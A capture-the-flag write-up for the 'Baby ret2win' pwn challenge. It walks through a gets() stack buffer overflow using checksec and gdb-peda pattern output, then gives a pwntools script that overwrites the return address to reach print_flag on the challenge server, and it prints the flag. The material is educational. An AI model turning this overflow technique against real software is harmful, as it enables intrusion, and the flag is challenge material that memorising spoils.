 # Baby ret2win
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/points-75-orange)

## Description
I always thought the barrier to binary exploitation is way too high. So here is a series to help you enter the world of pwning!

[babyret2win.zip](https://ctf.mcpt.ca/media/problem/_en-m9K647wzGX_RCJEx1yUgn7xQRg5rI7tmBrbK9Kg/babyret2win.zip)

## Solution
The `gets` function has a buffer overflow that we can abuse to overwrite the return pointer.

In 64-bit executables, when a function (like `main`) returns, it pops an address off the stack and returns to that address. If we can overwrite it, we can return to the win function.

Checking the security of the binary, it's not positionally independent, so we don't need to leak the address of `print_flag`. It's constant every time.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ p print_flag
$1 = {<text variable, no debug info>} 0x4011d6 <print_flag>
```

We can use gdb-peda's pattern feature to find the offset we want to overwrite.
```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r
Starting program: /workspaces/home/lyonctf/babyret2win/babyret2win 
...lots of text...
What is your name?
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
Hi admin!

Program received signal SIGSEGV, Segmentation fault.
...useless debugging information...
Stopped reason: SIGSEGV
0x0000000000401390 in main ()
gdb-peda$ pattern search
Registers contain pattern buffer:
RBP+0 found at offset: 48
```

The address we want to overwrite is RBP+8, so we should first write 48+8=56 bytes of junk first. Of course, we also need 8 newlines to skip past the prompts.

```py
from pwn import *

win = 0x4011d6
#     newlines  junk        win address
pay = b'\n'*8 + b'A' * 56 + p64(win)

#p = process('./babyret2win')
p = remote("784acc4.0x16.ink", 32500)
p.sendline(pay)

p.interactive()
```


Flag: `CTF{A_buffer_overflow_is_still_relevant_today!(CVE-2021-3156)}`
